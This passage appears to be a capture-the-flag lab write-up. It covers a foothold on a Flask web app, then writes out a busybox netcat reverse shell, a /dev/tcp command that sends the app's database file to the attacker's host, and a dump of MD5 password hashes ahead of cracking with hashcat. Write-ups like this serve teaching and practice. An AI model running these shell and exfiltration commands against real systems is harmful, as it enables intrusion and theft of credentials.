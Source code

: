 ```
_space_group_magn.name_BNS  "P  n'  m  a'  "
```

The reverse shell I used was `busybox nc 10.10.14.207 4444 -e /bin/bash` to call my netcat listener running on port `4444` locally.

To improve my shell I run `python3 -c 'import pty;pty.spawn("/bin/bash")'`.

In my entry point was the file `app.py`, I was able to `cat` the file and it seems to be running `flask`, which is a python web-server/web-app. In the file there are some mentions in the code, near routing information, of a database. *So perhaps*, there is some user privilege escalation value in getting into the database.

In the directory `instance`, which shares a directory with `app.py`, is a file `database.db`, which I assume is the database. I want to send this file back to my local for further analysis, so I spin up another `netcat` listener on my local

```
$ sudo nc -lnvp 2222 > database.db
```

And I pipe the file to this listener with a reverse shell:

```
cat database.db > /dev/tcp/10.10.14.207/2222
```

On my local I run the following commands:

```
$ sqlite3 database.db
SQLite version 3.40.1 2022-12-28 14:03:47
Enter ".help" for usage hints.
sqlite> tables
structure  user
sqlite> select* from user;
1|admin|2861debaf8d99436a10ed6f75a252abf
2|app|197865e46b878d9e74a0346b6d59886a
3|rosa|63ed86ee9f624c7b14f1d4f43dc251a5
4|robert|02fcf7cfc10adc37959fb21f06c6b467
5|jobert|3dec299e06f7ed187bac06bd3b670ab2
6|carlos|9ad48828b0955513f7cf0f7f6510c8f8
7|peter|6845c17d298d95aa942127bdad2ceb9b
8|victoria|c3601ad2286a4293868ec2a4bc606ba3
9|tania|a4aa55e816205dc0389591c9f82f43bb
10|eusebio|6cad48078d0241cca9a7b322ecd073b3
11|gelacia|4af70c80b68267012ecdac9a7e916d18
12|fabian|4e5d71f53fdd2eabdbabb233113b5dc0
13|axel|9347f9724ca083b17e39555c36fd9007
14|kristel|6896ba7b11a62cacffbdaded457c6d92
15|name|1a1dc91c907325c69271ddf0c944bc72
```

I saw the user `rosa` earlier while moving around the victim's box, so I attempt to unencrypt the password. With help from chatgpt, I find that it is an `MD5 hash`. I attempt to unencrypt with `hashcat`.
